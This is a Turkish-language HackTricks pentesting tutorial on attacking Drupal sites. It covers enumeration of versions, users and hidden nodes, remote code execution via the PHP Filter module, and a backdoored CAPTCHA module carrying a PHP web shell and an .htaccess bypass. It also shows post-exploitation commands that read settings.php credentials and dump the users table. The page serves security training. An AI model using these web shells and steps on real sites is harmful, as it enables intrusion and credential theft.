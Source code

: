# Drupal

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek HackTricks** (https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Keşif

* **meta**'yı kontrol edin
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Node**: Drupal **içeriği düğümler kullanarak dizinler**. Bir düğüm herhangi bir şeyi içerebilir, örneğin bir blog yazısı, anket, makale vb. Sayfa URI'leri genellikle `/node/<düğüm kimliği>` şeklindedir.
```bash
curl drupal-site.com/node/1
```
## Numaralandırma

Drupal varsayılan olarak **üç tür kullanıcıyı** destekler:

1. **`Yönetici`**: Bu kullanıcı Drupal web sitesi üzerinde tam kontrol sahibidir.
2. **`Doğrulanmış Kullanıcı`**: Bu kullanıcılar web sitesine giriş yapabilir ve izinlerine bağlı olarak makale ekleyebilir ve düzenleyebilir.
3. **`Anonim`**: Tüm web sitesi ziyaretçileri anonim olarak belirlenir. Varsayılan olarak, bu kullanıcılara yalnızca gönderileri okuma izni verilir.

### Sürüm

* `/CHANGELOG.txt` dosyasını kontrol edin.
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Drupal'ın daha yeni kurulumları varsayılan olarak `CHANGELOG.txt` ve `README.txt` dosyalarına erişimi engeller.
{% endhint %}

### Kullanıcı adı numaralandırma

#### Kayıt

_/user/register_ adresinde sadece bir kullanıcı adı oluşturmayı deneyin ve eğer ad zaten alınmışsa bildirim alırsınız:

![](<../../.gitbook/assets/image (328).png>)

#### Yeni şifre iste

Mevcut bir kullanıcı adı için yeni bir şifre isterseniz:

![](<../../.gitbook/assets/image (903).png>)

Mevcut olmayan bir kullanıcı adı için yeni bir şifre isterseniz:

![](<../../.gitbook/assets/image (307).png>)

### Kullanıcı sayısını al

_/user/\<number>_ adresine erişerek mevcut kullanıcı sayısını görebilirsiniz, bu durumda _/users/3_ adresi bulunamadı hatası döndürür:

![](<../../.gitbook/assets/image (333).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Gizli sayfalar

**`/node/$` şeklinde bir sorgulama yapın, burada `$` bir numaradır** (örneğin 1 ile 500 arasında).\
Bu şekilde **gizli sayfalar** (test, dev) bulabilirsiniz ki bunlar arama motorları tarafından referans gösterilmez.

#### Kurulu modüller bilgisi
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Otomatik
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### PHP Filtre Modülü ile

{% hint style="warning" %}
Drupal'ın **(8. sürümden önceki sürümlerinde)** eski sürümlerinde, bir yönetici olarak giriş yaparak **`PHP filtresi` modülünü etkinleştirmek** mümkündü, bu da "Gömülü PHP kod/dilimlerinin değerlendirilmesine izin verir."
{% endhint %}

**Eklentinin php olarak yüklü olması gerekmektedir** (_/modules/php_ adresine erişerek kontrol edin ve eğer **403** dönerse, **mevcut**, eğer **bulunamazsa**, o zaman **php eklentisi yüklü değil demektir**)

_Modüller_ -> (**Kontrol Et**) _PHP Filtresi_ -> _Yapılandırmayı Kaydet_

![](<../../.gitbook/assets/image (247) (1).png>)

Ardından _İçerik Ekle_'ye tıklayın -> _Temel Sayfa_ veya _Makale_ seçin -> _Gövdede php kabuk kodunu yazın_ -> _Metin biçiminde_ _PHP kodu_ seçin -> _Önizleme_ seçin

![](<../../.gitbook/assets/image (338).png>)

Son olarak sadece yeni oluşturulan düğüme erişin:
```bash
curl http://drupal-site.local/node/3
```
### PHP Filtre Modülünü Yükle

**8 ve sonraki sürümlerden itibaren**, [**PHP Filtre**](https://www.drupal.org/project/php/releases/8.x-1.1) **modülü varsayılan olarak yüklenmez**. Bu işlevselliği kullanabilmek için **modülü kendimiz yüklememiz gerekecek**.

1. Modülün en güncel sürümünü Drupal web sitesinden indirin.
2. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
3. İndirildikten sonra **`Yönetim`** > **`Raporlar`** > **`Kullanılabilir güncellemeler`** bölümüne gidin.
4. **`Göz at`**'a tıklayın, dosyayı indirdiğimiz dizinden seçin ve ardından **`Yükle`**'ye tıklayın.
5. Modül yüklendikten sonra **`İçerik`**'e tıklayabilir ve Drupal 7 örneğinde yaptığımız gibi **yeni bir temel sayfa oluşturabiliriz**. Yine, **`Metin biçimi` açılır menüsünden `PHP kodu`'nu seçtiğinizden emin olun**.

### Arka Kapılı Modül

Bir arka kapılı modül, **mevcut bir modüle bir kabuk ekleyerek oluşturulabilir**. Modüller drupal.org web sitesinde bulunabilir. [CAPTCHA](https://www.drupal.org/project/captcha) gibi bir modül seçelim. Aşağı kaydırın ve tar.gz [arşivi](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz) için bağlantıyı kopyalayın.

* Arşivi indirin ve içeriğini çıkarın.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* İçeriği olan bir **PHP web kabuğu** oluşturun:
```php
<?php
system($_GET["cmd"]);
?>
```
* Ardından, kendimize klasöre erişim sağlamak için bir **`.htaccess`** dosyası oluşturmamız gerekiyor. Bu, Drupal'ın **`/modules`** klasörüne doğrudan erişimi reddettiği için gereklidir.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Yukarıdaki yapılandırma, /modules içinde bir dosya istediğimizde / klasörü için kurallar uygulayacaktır. Her iki dosyayı da captcha klasörüne kopyalayın ve bir arşiv oluşturun.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Websiteye **yönetici erişimine** sahip olduğumuzu varsayarak, **`Yönet`** üzerine tıklayın ve ardından kenar çubuğunda **`Genişlet`** seçeneğine tıklayın. Daha sonra **`+ Yeni modül yükle`** düğmesine tıklayın ve yükleme sayfasına yönlendirileceksiniz, örneğin `http://drupal-site.local/admin/modules/install` Arkaplandan eklenmiş Captcha arşivine göz atın ve **`Yükle`**'ye tıklayın.
* Yükleme başarılı olduktan sonra, komutları yürütmek için **`/modules/captcha/shell.php`** sayfasına göz atın.

## Sonrası Sızma

### settings.php dosyasını okuyun
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Veritabanından Kullanıcıları Dökün
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Referanslar

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Sıfırdan kahraman olmaya kadar AWS hackleme öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi Twitter'da** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
